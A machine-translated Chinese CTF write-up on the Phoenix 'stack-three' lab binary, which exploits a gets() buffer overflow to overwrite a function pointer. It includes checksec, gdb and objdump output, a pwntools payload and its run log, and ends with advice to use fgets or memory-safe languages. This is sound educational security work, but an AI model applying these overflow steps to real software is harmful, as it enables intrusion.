


# 凤凰挑战—堆栈三

> 原文：<https://infosecwriteups.com/phoenix-challenges-stack-three-984e0434356b?source=collection_archive---------8----------------------->


# 挑战

挑战的描述和源代码位于[这里](https://exploit.education/phoenix/stack-three/)。它和所有其他 Phoenix 二进制文件都位于 **/opt/phoenix/amd64** 目录中。一篇[的前一篇文章](https://medium.com/@secnate/phoenix-challenges-getting-set-up-a2783e0616c6)描述了如何为这些挑战设置虚拟机，如果还没有这样做的话。

# 文件

我们使用下面的内容来检查*堆栈三个*文件的属性。

```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-three$ file /opt/phoenix/amd64/stack-three

/opt/phoenix/amd64/stack-three: setuid, setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

它有

1.  setuid**属性。它表示该程序是以所有者的权限运行的。如果文件的所有者是 root 用户(在本例中不是)，则可以使用它来提升权限。**
2.  由**未剥离**属性指示的符号。这意味着调试和分析二进制文件的人可以看到原始的变量和函数名。这对我们以后会有帮助。
3.  在执行过程中动态链接的共享库。这有助于识别所使用的标准函数。
4.  一个 **ELF 64 位 LSB 可执行文件，x86–64。** ELF 是文件格式，64 位是字长，LSB 表示是 little-endian(首先使用最低有效字节)，使用 x86–64 指令集。

# 目标

查看堆栈三的 C 代码，我们看到**局部变量**结构的 **fp** 指针变量被初始化为空。目标是篡改它的值，并将其设置为 **complete_level()** 函数的内存地址，使其启动。

# 相关概念

有必要了解*堆栈*内存是如何工作的。如果有人感兴趣，可以阅读我为凤凰堆栈零挑战写的文章[以获得全面的解释。](/phoenix-challenges-stack-zero-f8743cc871ed)

也有必要简单介绍一下指针。虽然是许多计算机科学学生的克星，但这个想法很简单:它们是内存位置的地址。当需要读取或更新数据时，程序会转到指定的内存位置进行处理。

下面是一个示例，说明 **ptr** 如何与整数变量 **var** 相关联。 **ptr** 的值是 **var** 变量的内存地址。当 **ptr** 被 ***ptr** 操作解引用时，程序获取其 **0x7fffa0757dd4** 值，并访问存储值。在这种情况下，它是整数 10。



**资料来源:***图书*【c++数据结构】*，第 2.2 章*

*应该注意，存储在指针引用的存储单元中的数据是*而不是需要为整数的*。它可以是数组、字符、字符串、函数，甚至是对象！在这个挑战中，我们将使用一个指针来引用一个函数开始的位置。*

*另一个要知道的概念是地址空间布局随机化(ASLR)。它用于强化编译后的可执行文件，使其不易受到攻击。每个可执行文件都包含一个堆栈、链接或复制的库代码、一个堆和用于执行的程序代码。如果这些组件位于相同或容易预测的位置，攻击者可以将程序执行流重定向到目标代码所在的位置。ASLR 的目标是通过将二进制文件的组件位置随机化到猜测它们的位置不可行的程度来扰乱开发过程。*

**

***资料来源:**丹尼尔·洛佩兹·阿扎尼亚关于 ASLR、卡斯尔和卡尔之间*差异的博客文章**

*注意，每次执行一个二进制代码，ASLR 都会改变组件的位置。*

# *虫子*

*所有*堆栈三的*数据都存储在堆栈上，其中*局部变量*结构的*缓冲区*和 *fp* 函数指针是相邻的邻居。存入缓冲区的多余数据将溢出到 *fp* 指针并影响其值。这种溢出是由于 **gets()** 函数将基于控制台的输入写入 *locals.buffer* 而不执行任何边界检查造成的。*

# *利用*

*我们首先需要检查二进制文件是否有任何反利用防御措施。Checksec 是 Pwntools 套件中的一个漂亮的脚本，它允许我们这样做:*

```
*nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-three$ checksec /opt/phoenix/amd64/stack-three
[*] '/opt/phoenix/amd64/stack-three'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
    RPATH:    b'/opt/phoenix/x86_64-linux-musl/lib'*
```

*没有启用。特别感兴趣的是**饼图**字段，它指示 ASLR 是否启用。因为不是这样， **complete_level()** 函数将总是在同一个内存位置。这简化了开发过程；一旦找到函数的位置，我们就可以将它传递给**局部变量**结构的 **fp** 变量。*

***complete_level()** 函数的地址可以用以下任一方法找到*

*   ***Pwndbg:***栈三*二进制被加载到 pwn dbg，我们打印 **complete_level** 符号的值。因为编译后的二进制文件具有未剥离的**属性，调试器可以找到变量和函数名，并打印它们的地址:***

```
*nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-three$ gdb /opt/phoenix/amd64/stack-three
GNU gdb (Ubuntu 12.0.90-0ubuntu1) 12.0.90
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
pwndbg: loaded 196 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from /opt/phoenix/amd64/stack-three...
(No debugging symbols found in /opt/phoenix/amd64/stack-three)
pwndbg> p complete_level
$1 = {<text variable, no debug info>} 0x40069d <complete_level>*
```

*   ***Objectdump:** 这是一个 Linux 命令行实用程序，用于显示关于 Linux 目标文件的信息。我们可以使用它的反汇编功能来显示 **complete_level()** 函数的汇编代码和内存位置:*

```
*nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-three$ objdump -d /opt/phoenix/amd64/stack-three
000000000040069d <complete_level>:
  40069d:	55                   	push   %rbp
  40069e:	48 89 e5             	mov    %rsp,%rbp
  4006a1:	bf 90 07 40 00       	mov    $0x400790,%edi
  4006a6:	e8 45 fe ff ff       	call   4004f0 <puts@plt>
  4006ab:	bf 00 00 00 00       	mov    $0x0,%edi
  4006b0:	e8 5b fe ff ff       	call   400510 <exit@plt>*
```

*这两种方法为我们提供了相同的信息: **complete_level()** 函数从 **0x40069d 开始。***

*这个漏洞利用过程将会很快，因为*堆栈三*基本上与*堆栈零*挑战相同。[那些不熟悉[我的 Stack Zero challenge 解决方案](https://secnate.github.io/ctf/phoenix/phoenix-stack-zero/)的人可能想回顾一下这个过程的详细历史背景]*

*是时候利用这个漏洞了。 *exploit.py* 文件第 14 行的有效负载是*

```
*payload = cyclic(64) + p64(0xdeadbeef)*
```

*它在 *exploit.py* 文件的第 24 行被传递到 stack-three 程序的执行中*

```
*p.sendline(payload)*
```

*好的，我创建了一个基本的漏洞，并通过命令行输入把它传了进来。下一步是测试 **0xdeadbeef** 是否用方便包含的打印输出完全覆盖了 **fp** 变量:*

```
*nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-three$ ./exploit.py
Launching The Stack Three Exploit!
[!] Could not find executable 'stack-three' in $PATH, using '/opt/phoenix/amd64/stack-three' instead
[+] Starting local process '/opt/phoenix/amd64/stack-three': pid 6348
[*] Switching to interactive mode
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0xdeadbeef
[*] Got EOF while reading in interactive
$*
```

*确实如此。最后一步是用 **0x40069d** 替换有效载荷的 0xdeadbeef 值:*

```
*nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-three$ ./exploit.py
Launching The Stack Three Exploit!
[!] Could not find executable 'stack-three' in $PATH, using '/opt/phoenix/amd64/stack-three' instead
[+] Starting local process '/opt/phoenix/amd64/stack-three': pid 8404
[*] Switching to interactive mode
[*] Process '/opt/phoenix/amd64/stack-three' stopped with exit code 0 (pid 8404)
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
[*] Got EOF while reading in interactive
$*
```

*漏洞代码可以在我的 [Github 知识库](https://github.com/secnate/Exploit-Education-CTFs)中找到。*

# *补救*

*为了防止这样的内存损坏错误，我会敦促开发人员不要用 C 和 C++编写，而要过渡到具有自动内存管理的语言，比如 Python 或 Rust。我的 CTF 文章的追随者知道这是我经常重复的一句话。*

*但不仅仅是我。记忆不安全语言带来的风险如此普遍和严重，以至于 NSA 觉得有必要大声说出来。它在 2022 年 11 月发布了一份报告，敦促组织一劳永逸地放弃内存不安全的语言:*

> *美国国家安全局建议尽可能使用记忆安全的语言。虽然对非内存安全语言使用附加保护和使用内存安全语言并不能提供针对可利用内存问题的绝对保护，但它们确实提供了相当大的保护…*
> 
> *使用内存安全语言有助于防止程序员引入某些类型的内存相关问题。内存作为计算机语言的一部分被自动管理；它不依赖程序员添加代码来实现内存保护。该语言使用编译时和运行时检查的组合来建立自动保护。这些固有的语言特性防止程序员无意中引入内存管理错误。内存安全语言的例子包括 C#、Go、Java、Ruby、Rust 和 Swift。*

*如果除了使用 C 别无选择，我会警告不要使用 [gets()](https://www.tutorialspoint.com/c_standard_library/c_function_gets.htm) 函数从命令行提取输入。*

*应该使用 [fgets()](https://cplusplus.com/reference/cstdio/fgets/) 函数。它解析命令行输入并将其放入目标缓冲区，同时执行适当的边界检查。*

*源代码的`gets(locals.buffer);`行将是*

```
*fgets(locals.buffer, 64, stdin);*
```

*使用 **fgets** 的额外好处是，它会自动用终止空字符(" \0 ")终止缓冲区。程序员可能会忘记手动插入这样的字符。因此，在这个挑战中，只有 63 个字符从命令行读入缓冲区，第 64 个字符是“\0”。*

*用空字符终止缓冲区对于防止缓冲区过度读取漏洞至关重要。这些包括数据泄漏，因为读取缓冲区的函数没有遇到终止字符，并继续越过缓冲区的末端进入相邻的内存。其中包括臭名昭著的 [2014 OpenSSL Heartbleed bug。](https://owasp.org/www-community/vulnerabilities/Heartbleed_Bug)*

*目前就这些。下次见！*

*这篇 CTF 挑战赛的文章最初发表在内森·帕夫洛夫斯基的个人博客上: [secnate.github.io](http://secnate.github.io/)*

***来源:***

*[*libre texts’*本书*《c++数据结构》*，第 2.2 章](https://eng.libretexts.org/Courses/Delta_College/C_-_Data_Structures/02%3A_C_Pointers/2.02%3A_How_to_use_a_pointer)*

*[丹尼尔·洛佩斯·阿扎尼亚的博客文章*ASLR、卡斯尔和卡尔之间的差异*](https://www.daniloaz.com/en/differences-between-aslr-kaslr-and-karl/)*

*[NSA 发布关于如何防范软件内存安全问题的指南](https://www.nsa.gov/Press-Room/News-Highlights/Article/Article/3215760/nsa-releases-guidance-on-how-to-protect-against-software-memory-safety-issues/)*

## *来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*